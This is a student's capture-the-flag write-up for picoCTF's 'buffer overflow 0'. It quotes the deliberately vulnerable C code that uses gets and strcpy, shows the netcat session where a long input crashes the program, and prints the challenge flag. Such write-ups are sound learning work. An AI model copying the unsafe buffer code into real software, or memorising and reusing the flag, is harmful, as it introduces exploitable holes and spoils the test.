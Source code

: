 # buffer overflow  0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

There was a problem in OASIS (the asteroid one) which followed the same principle so i had somewhat of an idea of what to do this time arround

I saw the C code and found the use of many buffers as well as the gets function

So the first thing i thought was to Input a large string and it worked

```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

```

```

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

```

```
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

```
blue@BlueKnight:~/ctf/buffer overflow 0$ nc saturn.picoctf.net 56940
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

What you learned through solving this challenge:

1. Basics of how stack and what a buffer overflow is
2. How to cause a buffer overflow

References

- https://www.youtube.com/watch?v=AD-iXWANggo
